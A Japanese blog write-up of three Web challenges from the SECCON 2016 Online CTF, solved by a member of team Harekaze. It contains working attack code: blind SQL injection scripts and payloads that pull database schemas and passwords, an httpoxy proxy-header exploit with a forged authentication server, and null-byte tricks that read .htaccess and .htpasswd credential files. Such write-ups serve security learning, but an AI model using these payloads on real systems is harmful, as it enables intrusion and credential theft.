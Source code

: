 ```yaml
---
layout: post
title: SECCON 2016 オンライン予選に参加しました
categories: [ctf]
date: 2016-12-11 16:53:00 +0900
---
```


hiww さん ([@hiww](https://twitter.com/hiww)) のお誘いでチーム [Harekaze](http://harekaze.com/) として SECCON 2016 Online CTF に参加しました。
最終的にチームで 1300 点を獲得し、チーム順位は 61 位 (得点 930 チーム中) でした。

私は Web カテゴリの問題を中心に取り組んで、

- basiq (Web 100)
- pppppoxy (Web 200)
- uncomfortable web (Web 300)

の 3 問を解きました。

チームメンバーの write-up はこちら。

- [@konjo_p](https://twitter.com/konjo_p) さん : [SECCON2016qual 参加記 - 学習の栞](http://konjo-p.hatenablog.com/entry/2016/12/11/204700)
- [@_jptomoya](https://twitter.com/_jptomoya) さん : [SECON 2016 Online CTFに参加していた - 気まぐれ雑記(仮)](http://jptomoya.hatenablog.com/entry/2016/12/12/140136)
- [@hiww](https://twitter.com/hiww) さん : [晴風(Harekaze)でSECCON 2016 Online CTFに参加して轟沈したお話。 - 備忘録的なやつ](http://hiww.hatenablog.com/entry/20161213/harekaze)

以下、私の write-up です。

## basiq (Web 100)
以前見たことがあるような競馬のサービスから admin のパスワードを手に入れる問題でした。

どこから攻めればいいのか分からずだいぶ悩んでいましたが、[@tatarhy](https://twitter.com/tatarhy) さんのコメントで http://basiq.pwn.seccon.jp/admin/ にアクセスすると認証ダイアログが表示されると分かりました。

これは怪しいと思い、試しにユーザ名に `admin`、パスワードに `' or 1;#` と入力するとログインに成功しました。
また、ユーザ名に `admin`、パスワードに `' and 0;#` と入力するとログインに失敗しました。

このことから Blind SQLi ができるのではないかと考え、まず以下のコードで確かに情報を抜けることを確認しました。

```python
import requests
import sys

def check(c):
  return c == 200

url = 'http://basiq.pwn.seccon.jp/admin/'
query = "' and 0 or substr(version(), {}, 1) <= binary 0x{:x};#"

i = 1
res = ''

while True:
  high = 0x7e
  low = -1

  while abs(high - low) > 1:
    mid = (high + low) // 2

    c = requests.get(url, auth=('admin', query.format(i, mid)))

    if check(c.status_code):
      high = mid
    else:
      low = mid

  res += chr(high)
  print(i, res)
  i += 1
```

結果は `5.5.50-MariaDB` でした。

続いてどのようなデータベースがあるか確認するため、`query` を `' and 0 or substr((select group_concat(distinct hex(table_schema)) from information_schema.tables where table_schema != 'information_schema'), {}, 1) <= binary 0x{:x};#` に変え実行しました。`keiba` というデータベースがあると分かりました。

さらに `information_schema.columns` からテーブル名とカラム名を抜き出すと、`id` `name` `pass` というカラムを持つ `☹☺☻` (`\u2639\u263a\u263b`) というテーブルがあると分かりました。

あとは `keiba.☹☺☻` からパスワードを抜き出すだけです。

```
SECCON{Carnival}
```

## pppppoxy (Web 200)
配布された `pppppoxy.exe` という実行ファイルを実行すると、ブラウザで `127.0.0.1:81` が開かれました。`127.0.0.1:81` では Web アプリが動いており、これの認証を突破する問題でした。この問題は Harekaze が first solve でした。

この問題名から思い出されるのは、[httpoxy](https://httpoxy.org/) という脆弱性です。

試しに `python -m SimpleHTTPServer 8000` で待ち受けながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=hoge" -H "Proxy: http://127.0.0.1:8000"` を実行してみました。すると、`GET http://127.0.0.1:81/Authenticator?user=admin HTTP/1.0` という HTTP リクエストが飛んできました。ビンゴです。

`http://127.0.0.1:81/Authenticator?user=admin` にアクセスすると `{"hash":"C432A8174394A3F655B2BD29BB075E4C"}` という JSON が返ってきました。このハッシュは文字数からしておそらく MD5 でしょう。

これを利用して、以下のようなコードを書きました。

```python
from flask import Flask
app = Flask(__name__)

@app.errorhandler(404)
def not_found(e):
    return '{"hash":"21232F297A57A5A743894A0E4A801FC3"}', 404

if __name__ == "__main__":
    app.run(port=8000)
```

これを動かしながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=admin" -H "Proxy: http://127.0.0.1:8000"` を実行するとフラグが出ました。

```
SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}
```

## uncomfortable web (Web 300)
シェルスクリプトやらなんやらを実行できる Web アプリと、その Web アプリからのみアクセスできる Web アプリがあり、前者から後者を攻略する問題でした。

この問題もどこから攻めればいいのかが分からず悩んでいましたが、`curl "http://127.0.0.1:81/select.cgi?txt=a.txt%00"` のように null バイトを入れるとよいと気付いて進捗しました。

`/authed/` 下を見る認証に必要な情報を得るために `http://127.0.0.1:81/select.cgi?txt=.htaccess%00` で `.htaccess` を抜き出しました。

```
AuthUserFile /var/www/html-inner/authed/.htpasswd
AuthGroupFile /dev/null
AuthName "SECCON 2016"
AuthType Basic
Require user keigo
```

認証に使用するユーザ名とパスワードの一覧は `.htpasswd` に格納されているようです。同じように抜き出しました。

```
keigo:LdnoMJCeVy.SE
```

gen さん ([@neglect_yp](https://twitter.com/neglect_yp)) がパスワードは `test` であるとコメントされていたので、得られた情報から `/authed/` 下を見ると以下のような構成になっていました。

```
[TXT]	a.txt	30-Nov-2016 09:59	888	 
[TXT]	b.txt	28-Nov-2016 12:00	78	 
[TXT]	c.txt	30-Nov-2016 10:04	48	 
[DIR]	sqlinj/	28-Nov-2016 11:41	-	 
```

`/authed/sqlinj/` 下は `{1..100}.cgi` という感じで 100 個のファイルがあり、そのいずれかで SQLi が行えるようでした。

HTML のコメントに `<!-- by KeigoYAMAZAKI, 2016.11.25- -->` とあったため、`SQLite` を使用していると考え、以下のコードでどのファイルで SQL インジェクションが行えるか確かめました。

```python
#!/usr/bin/python
import requests
for x in range(1, 101):
  print '[' + str(x) + ']'
  print requests.get('http://127.0.0.1:81/authed/sqlinj/{0}.cgi?no=\'||\'4822267938'.format(x), auth=('keigo', 'test')).content
```

`72.cgi` で SQL インジェクションが行えると分かりました。あとはやるだけです。

`http://127.0.0.1:81/authed/sqlinj/72.cgi?no=4822267939' union select 1, 2, (select group_concat(sql) from sqlite_master) where 1 or '` で `f1ag` というカラムを持つ `f1ags` というテーブルがあると分かります。

`select group_concat(sql) from sqlite_master` を `select group_concat(f1ag) from f1ags` に変えるとフラグが出ました。

```
SECCON{I want to eventually make a CGC web edition... someday...}
```

